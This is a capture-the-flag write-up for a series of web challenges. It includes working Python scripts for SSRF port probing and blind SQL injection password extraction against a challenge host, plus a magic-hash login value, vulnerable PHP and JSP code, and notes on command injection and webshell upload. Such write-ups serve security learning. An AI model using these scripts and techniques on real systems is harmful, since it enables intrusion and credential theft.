# Web active

## Easy SSRF

we need to notice that if not true will return `notfound` image, I bypassed `localhost` with `0.0.0.0`, and to find out at which port I gave condition if there is no `base64 string` in not found image then consider it found

`script`

```python
import requests

url_local = "0.0.0.0"
url_chall = "http://103.97.125.56:32159/img_viewer"

for i in range(1500, 1801):
    url_to_test = f"http://{url_local}:{i}/flag.txt"
    try:
        res = requests.post(url_chall, data={"url": url_to_test}, timeout=2)
        if "iVBORw0KGgoAAAANSUhEUgAAA04AAAF4CAY" not in res.text: # base64 in not found image
            print(f"[+] FLAG FOUND at port {i}:\n{res.text}")
            break
        print(f"[-] Port {i} no flag")
    except Exception as e:
        print(f"[x] Error at port {i} → {e}")
```

```shell
[-] Port 1500 no flag
[+] FLAG FOUND at port 1501:
<!doctype html>
<html>
<head>
    <link rel="stylesheet" href="https://cdn.jsdelivr.net/npm/bootstrap@3.3.7/dist/css/bootstrap.min.css"
          integrity="sha384-BVYiiSIFeK1dGmJRAkycuHAHRg32OmUcww7on3RYdg4Va+PmSTsz/K68vbdEjh4u" crossorigin="anonymous">
    <link rel="stylesheet" href="https://cdn.jsdelivr.net/npm/bootstrap@3.3.7/dist/css/bootstrap-theme.min.css"
          integrity="sha384-rHyoN1iRsVXV4nD0JutlnGaslCJuC7uwjduW9SVrLvRYooPp2bWYgmgJQIXwl/Sp" crossorigin="anonymous">
<link rel="stylesheet" href="/static/css/non-responsive.css">
    <title>Web SSRF</title>

    <style type="text/css">
        .important {
            color: #336699;
        }
    </style>

</head>
<body>

<!-- Fixed navbar -->
<nav class="navbar navbar-default navbar-fixed-top">
    <div class="container">
        <div class="navbar-header">
            <a class="navbar-brand" href="/">web-ssrf</a>
        </div>
        <div id="navbar">
              <ul class="nav navbar-nav">
                <li><a href="/">Home</a></li>
                <li><a href="#about">About</a></li>
                <li><a href="#contact">Contact</a></li>
              </ul>

            <ul class="nav navbar-nav navbar-right">
            </ul>

        </div><!--/.nav-collapse -->
    </div>
</nav>


    <div class="container">
    <h1>Image Viewer</h1><br/>

  
        <form method="POST">
          <div class="form-group">
            <label for="url">url</label>
            <input type="text" class="form-control" id="url" placeholder="url" name="url" value="/static/cookie.png" required>
          </div>
          <button type="submit" class="btn btn-default">View</button>
        </form>

    </div> <!-- /container -->

<!-- Bootstrap core JavaScript -->
<script src="https://code.jquery.com/jquery-1.12.4.min.js"
        integrity="sha256-ZosEbRLbNQzLpnKIkEdrPv7lOy9C27hHQ+Xp8a4MxAQ=" crossorigin="anonymous"></script>
<script src="https://cdn.jsdelivr.net/npm/bootstrap@3.3.7/dist/js/bootstrap.min.js"
        integrity="sha384-Tc5IQib027qvyjSMfHjOMaLkfuWVxZxUPnCJA7l2mCWNIpG9mGCD8wGNIcPD7Txa"
        crossorigin="anonymous"></script>
</body>
</html>
```

decode base64: `Q0hIe1lvdV9jQU5fM2E1WV9iWXBBc1NfTDBjQGxoTyRUXzdjY2QyZTFmNmRhYTI3YzBhNzEwNTM5YzM4M2RiNTcyfQ==` to get `flag`

---

## Baby HTTP Method

go to `devtool` and you will see `/src` and will get `flag` if send `PUT` to `/super-secret-route-nobody-will-guess`


---

## Magic Login

challenge with `magic hash`, open `devtool` to see how to login, you can see that login will be successful if hash of inputted `pas == '0'`, obviously this is loose comparison, find proper input [here](https://github.com/spaze/hashes/blob/master/sha256.md)

`login`
```html
<!--
if(isset($_POST['submit'])){ 
    $usr = mysql_real_escape_string($_POST['username']); 
    $pas = hash('sha256', mysql_real_escape_string($_POST['password'])); 
    
    if($pas == "0"){ 
        $_SESSION['logged'] = TRUE; 
        header("Location: upload.php"); // Modify to go to the page you would like 
        exit; 
    }else{ 
        header("Location: login_page.php"); 
        exit; 
    } 
}else{    //If the form button wasn't submitted go to the index page, or login page 
    header("Location: login_page.php");     
    exit; 
} 
```

use `password=34250003024812`


after successful login then next is `fileupload` vulnerability, upload to a `webshell`


---

## Time

download the source code and read, at `challenge/models/TimeModel.php` we can see the getTime function will `execute` the `this->command` statement, here we can `inject` more commands and matching symbols to bypass

`challenge/models/TimeModel.php`
```php
<?php
class TimeModel
{
    public function __construct($format)
    {
        $this->command = "date '+" . $format . "' 2>&1";
    }

    public function getTime()
    {
        $time = exec($this->command);
        $res  = isset($time) ? $time : '?';
        return $res;
    }
}
```


---

## Ping 0x01

`index.php`
```php
<?php
if(isset($_POST[ 'ip' ])) {
    $target = trim($_POST[ 'ip' ]);
    $substitutions = array(
        '&'  => '',
        ';'  => '',
        '|' => '',
        '-'  => '',
        '$'  => '',
        '('  => '',
        ')'  => '',
        '`'  => '',
        '||' => '',
    );
    $target = str_replace( array_keys( $substitutions ), $substitutions, $target );
    $cmd = shell_exec( 'ping -c 4 ' . $target );
}
?>
```

in this `command injection` challenge we have bypassed the ways to chain `commands`, but that's ok, let's go to line break in `burp suite`


---

## NSLookup (Level 1)

In this challenge we just use interrupt to `execute` more





---

## Under Construction

Please `unzip` the war file and read the source code

`image.jsp`
```jsp
<%@ page trimDirectiveWhitespaces="true" %>
<%
String filepath = getServletContext().getRealPath("resources") + "/";
String _file = request.getParameter("file");

response.setContentType("image/jpeg");
try{
    java.io.FileInputStream fileInputStream = new java.io.FileInputStream(filepath + _file);
    int i;   
    while ((i = fileInputStream.read()) != -1) {  
        out.write(i);
    }   
    fileInputStream.close();
}catch(Exception e){
    response.sendError(404, "Not Found !" );
}
%>
```

We see that the path `traversal` vulnerability is right on the data passed through `_file` and is not filtered.



---

## Ethical Ping Pong Club

A fairly common command injection challenge, we can bypass it by going to a new line and inserting more commands in `burpsuite`



but the `filter` won't give us spaces, so we need to `bypass` it





---

## Baby Crawler

After learning about `curl` command, `curl` can execute system command and send to the server we provide, let's try it







we can see that the file content after `@` is `test.txt` which is sent to the `webhook`. let's take advantage of this challenge, we know that `escapeshellcmd` will `escape` the characters: 
``` shell
' " & ; | ` \ $ > < * ? ~ # ( ) [ ] { } \n
```
and the `payload` we don't have in it





---

## File Download

there is a path `traversal` vulnerability in `/real`, exploit it to read the `flag`



---

## Upload File Path Traversal

in this challenge we can upload file to `/upload` but can not access because it is `forbidden`, upload it somewhere else, I have backed up before uploading a folder to practice. Note that if the return message is still in uploads then we are not successful, bypass it so that the return is like `upload/../file`





---

## Be Positive

in this challenge we have the right to `trade`, `transfer` money between `alice` and `bob`, the amount transferred cannot exceed the current amount, `flag` needs `3001` to buy, but each side only has `1500`, if transferred all then it is not enough, at this time I think of transferring negative money to be able to calculate the positive number 
- from `alice` transfer to `bob` `-5000`, the `system` does not allow but we can overcome by editing in the source code with `devtool`





After transferring a negative number, the account will be immediately credited with that amount. This is an error about exceeding the value of the data.



---

## Upload File via URL

a challenge about `LFI`, we can replace `url` with `local url`, trick server to `download` file and render to interface







---

## Simple Blind SQL Injection

this is a pretty cool challenge about `blind sql injection` technique, try it in input field, if user exists (or query true) it will show user `exists`, otherwise it will return `not found`, taking advantage of this I wrote a script to exploit

```python
import requests
import string

URL = "http://103.97.125.56:30212/?uid="

charset = string.ascii_lowercase + string.digits + '_'

def get_len():
    length = 0
    for i in range(1, 100):
        payload = f"admin' and length(upw)={i} --"
        res = requests.get(URL+payload)
        
        if 'exists' in res.text.lower():
            length = i
            break
        print(f"Trying length: {i}")
    return length

def get_password_length(length):
    pw = ""
    for i in range(1, length + 1):
        for c in charset:
            payload = f"admin' and substr(upw,{i}, 1)='{c}' --"
            res = requests.get(URL + payload)
            if 'exists' in res.text.lower():
                pw += c
                break
        print(f"Current password: {pw}")
    return pw

len_password = get_len()
if len_password:
    print(f"Password length found: {len_password}")
    password = get_password_length(len_password)
    print(f"Password found: {password}")
```





---

## XXE Injection 001

In the `xxe` injection challenge, we see that the system will recognize the entities in the main class as `employees`, the child entities in the employee tags, based on this we also `inject` an additional `entity` to get data in the system and pass it to any data in the returned json format.



---
